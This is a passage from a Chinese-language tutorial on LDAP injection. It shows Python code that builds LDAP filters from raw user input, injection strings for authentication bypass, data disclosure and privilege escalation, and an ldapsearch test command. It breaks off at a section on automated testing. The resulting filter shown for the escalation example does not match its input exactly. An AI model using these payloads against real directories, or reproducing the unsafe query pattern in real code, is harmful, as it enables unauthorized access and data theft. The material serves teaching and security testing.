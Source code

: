 ```ldif
cn: John Doe
sn: Doe
uid: john
userPassword: {SSHA}hashedpassword
```

### 5.2 攻击步骤

#### 5.2.1 认证绕过

假设应用程序使用以下代码构建LDAP查询：

```python
username = user_input
query = f"(&(objectClass=user)(uid={username}))"
```

攻击者可以输入`john)(uid=*))(|(uid=*`，使得查询变为：

```ldap
(&(objectClass=user)(uid=john)(uid=*))(|(uid=*))
```

这个查询将匹配所有`objectClass`为`user`的条目，从而绕过认证。

#### 5.2.2 信息泄露

攻击者可以通过输入`*`来获取所有`uid`为任意值的条目：

```ldap
(&(objectClass=user)(uid=*))
```

这个查询将返回所有`objectClass`为`user`的条目，从而泄露敏感信息。

#### 5.2.3 权限提升

在某些情况下，攻击者可以通过LDAP注入提升自己的权限。例如，攻击者可以通过输入`john)(objectClass=admin))`，使得查询变为：

```ldap
(&(objectClass=user)(uid=john)(objectClass=admin))
```

如果应用程序未对查询结果进行适当的验证，攻击者可能会被授予管理员权限。

## 6. 实际命令与工具使用

### 6.1 使用`ldapsearch`进行测试

`ldapsearch`是OpenLDAP提供的一个命令行工具，用于执行LDAP查询。可以使用以下命令测试LDAP注入：

```bash
ldapsearch -x -D "cn=admin,dc=example,dc=com" -w admin -b "dc=example,dc=com" "(&(objectClass=user)(uid=john)(uid=*))"
```

### 6.2 使用`ldap3`库进行自动化测试
